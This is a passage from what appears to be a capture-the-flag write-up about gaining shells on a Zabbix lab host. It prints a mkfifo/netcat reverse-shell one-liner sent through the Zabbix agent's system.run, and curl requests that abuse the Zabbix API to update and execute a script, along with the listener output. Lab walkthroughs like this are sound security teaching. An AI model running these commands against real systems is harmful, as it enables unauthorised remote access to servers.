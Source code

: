 



    root@kali# nc -lnp 443
    zipper



I can pivot that RCE into a shell:



    [zabbix_cmd]>>:  echo "system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f]" | nc 10.10.10.108 10050
    ZBXD8





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:38512.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)



It dies quickly, but I can fix that like I did in the previous section.

### Path 3 - Admin Creds on Zabbix to GUI

#### Shell on Zabbix

This time, I'll get a shell on Zabbix by changing the `execute_on`
parameter to 1 in the script I was using to get a shell in the first
path:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "execute_on": 1}}' | jq -c .
    {"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}

    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 4}}' | jq . 



I get a shell, in the Zabbix container (this one is stable on its own):



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:36370.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
    $ hostname
    8e6232f363e0
